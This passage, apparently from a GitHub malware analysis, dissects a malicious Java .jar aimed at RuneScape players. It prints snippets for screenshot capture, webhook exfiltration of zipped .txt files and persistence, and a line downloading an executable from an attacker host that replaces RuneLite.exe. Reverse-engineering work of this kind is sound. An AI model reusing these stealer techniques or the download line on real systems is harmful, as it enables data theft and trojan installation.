 - 📸 **Screenshot Capture**<br>
It takes a screenshot of the victim's screen and saves it as a PNG file:
```java 
Robot screenCapturer = new Robot();
BufferedImage screenImage = screenCapturer.createScreenCapture(screenDimensions);
```
This screenshot gets sent to a webhook:
```java 
sendScreenshotToWebhook(screenshotFile);
```

- 📁 **Stealing .txt Files**<br>
It also scans the Desktop and Downloads folders for .txt files, zips them into a file called hussla.zip, and sends the zip to another webhook:
```java
zipDesktopAndDownloadsTxtFiles();
sendZipToWebhook(textFilesZip);
```

- 🧪 **Targeting RuneLite**<br>
The malware searches for a folder named RuneLite (a popular Old School RuneScape client) and replaces the RuneLite.exe file with a malicious one downloaded from the attacker's server:
```java
downloadFile("https://ikovrsps.org/gamefiles/image.exe", runeLiteExePath);
```
Even if the file already exists, it replaces it anyway.

- 🕒 **One-Time or Persistent Mode**<br>
The malware checks if it is already running from the Startup folder. If yes, it enters persistent mode and keeps running in the background using a scheduler. It uses this logic:
```java
if (currentJarPath.equalsIgnoreCase(startupPath)) {
    // Persistent mode - runs every 15 minutes
}
```
In persistent mode, it keeps executing malicious tasks every 15 minutes using a scheduled executor service. If it is not running from the Startup folder, it just runs once and exits. This allows it to blend in and not raise suspicion during initial infection.

To quickly sum it up, here is what this malware does:
- Installs itself in Startup for persistence
- Fakes a Java error to avoid suspicion
- Collects system information (IP, PC name)
- Tries to steal Discord tokens
- Takes a screenshot and sends it out
- Zips up text files from Desktop and Downloads
- Replaces the RuneLite client with a trojanized one
- Runs again every 15 minutes if installed in Startup

NOTE: If you want to see the full deobfuscated source code and the script I used to reverse it, feel free to check out my GitHub repo for the complete version.
[https://github.com/HareezIshraf5/Reverse-Malicious-.jar](https://github.com/HareezIshraf5/Reverse-Malicious-.jar)<br><br>


#### **RSPS.class – Discord Token Stealer**
